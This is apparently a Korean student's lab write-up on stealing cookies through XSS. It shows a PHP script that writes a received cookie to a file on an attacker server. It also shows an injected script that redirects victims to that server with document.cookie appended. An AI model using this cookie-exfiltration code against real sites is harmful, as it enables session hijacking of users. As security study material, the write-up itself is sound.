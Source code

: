 ![image-20220522134350189](i../mg/image-20220522134350189.png)

다만 기초적인 `alert` 함수와 `document.cookie()`만 알고 있는데 XSS 스크립트를 읽은 사용자의 쿠키값을 얻어내기 위해선 어떻게 해야하는지 간단히 알아보자.


1.공격 준비
```php
<?php
	$cookie = $_GET['cookie'];
	$fp = fopen("./save.txt","w");
	fwrite($fp,$cookie);
	fclose($fp);
?>
```

<br>

2.준비한 XSS 삽입

```php
<script>
	document.location="http://192.168.3.128/attack.php?cookie=" + document.cookie;
</script>
```

![image-20220522135909900](../img/image-20220522135909900.png)

<br>

3.확인

![image-20220522140012556](../img/image-20220522140012556.png)

공격자 서버에 GET 방식으로 인자를 전달 받는 php를 생성하고 XSS에서 document.cookie를 해당 페이지의 인자로 전달했다. 이후 공격자의 서버에 파일을 저장함으로써 피해자의 컴퓨터를 보고 있지 않아도 쿠키 값을 볼 수 있겠다.

<br><br>

이렇게 마지막 low 레벨까지 라업을 쓰는 도중에 6주차 과제도 올라왔다. 이번 주 토요일 sqld 자격증 시험과 다음 bob 지원 마감이기에 시간 관리를 잘해야겠다. 
